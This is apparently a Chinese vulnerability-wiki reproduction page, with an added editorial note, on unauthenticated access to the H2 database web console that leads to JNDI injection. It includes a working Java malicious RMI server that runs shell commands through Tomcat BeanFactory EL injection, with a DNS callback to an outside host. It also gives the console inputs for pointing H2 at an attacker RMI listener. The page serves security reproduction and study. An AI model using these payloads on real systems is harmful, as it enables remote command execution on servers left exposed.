




# H2 Database Web Console 未授权访问

> 版本与配置校订（2026-10-04）：[H2 项目 GHSA](https://github.com/h2database/h2database/security/advisories/GHSA-h376-j262-vhq6)列出 1.1.100–2.0.204（含两端）、修复 2.0.206。远程 Console 默认关闭；公告路径要求显式启用远程访问且未配置保护，不能由开放页面推出全部数据库 SQL 权限无认证。原文的 Java 8u252/Tomcat 条件属于其独立 gadget 实验，不能替代尚未知的 H2 实验构建号。代码被误填进版本字段的问题已更正，原值与旧前提、风险说明均保留于 `previous_*`；后文相关旧缺口按此范围阅读，RMI 示例及工具变体原样保留。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：远程控制台；Java8u252、Tomcat BeanFactory/ELProcessor及JavaScript引擎
- 证据范围：独立高JDK本地gadget实验，不能按同CVE删掉独特环境证据

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0 version元数据为import java.rmi.registry.*;，提取错误
- 未说明H2受影响和修复版本，补主漏洞映射前先核源码版本
- 开放Web界面不等于所有数据库SQL权限无认证，应区分登录前JNDI路径
- 示例JNDI端口/对象与工具生成方式不同，应明确是两种变体
- 保留JDK/Tomcat条件并关联15

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

H2 database 是一款 Java 内存数据库，多用于单元测试。H2 database 自带一个 Web 管理页面，在 Spirng 开发中，如果我们设置如下选项，即可允许外部用户访问 Web 管理页面，且没有鉴权：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

利用这个管理页面，我们可以进行 JNDI 注入攻击，进而在目标环境下执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e

## 环境搭建

执行如下命令启动一个 Springboot + h2database 环境：

```shell
docker-compose up -d
```

启动后，访问 `http://your-ip:8080/h2-console/` 即可查看到 H2 database 的管理页面。

## 漏洞复现

目标环境是 Java 8u252，版本较高，因为上下文是 Tomcat 环境，我们可以参考《[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)》，使用 `org.apache.naming.factory.BeanFactory` 加 EL 表达式注入的方式来执行任意命令。

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

我们可以借助这个小工具 [JNDI](https://github.com/JosephTribbianni/JNDI) 简化我们的复现过程。

首先设置 JNDI 工具中执行的命令为 `touch /tmp/success`：




然后启动 `JNDI-1.0-all.jar`，在 h2 console 页面填入 JNDI 类名和 URL 地址：




Driver Class（JNDI 的工厂类）：

```
javax.naming.InitialContext
```

JDBC URL（运行 JNDI 工具监听的 RMI 地址）：

```
rmi://192.168.128.1:23456/BypassByEL
```

点击连接后，恶意 RMI 成功接收到请求：




`touch /tmp/success` 已成功执行：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
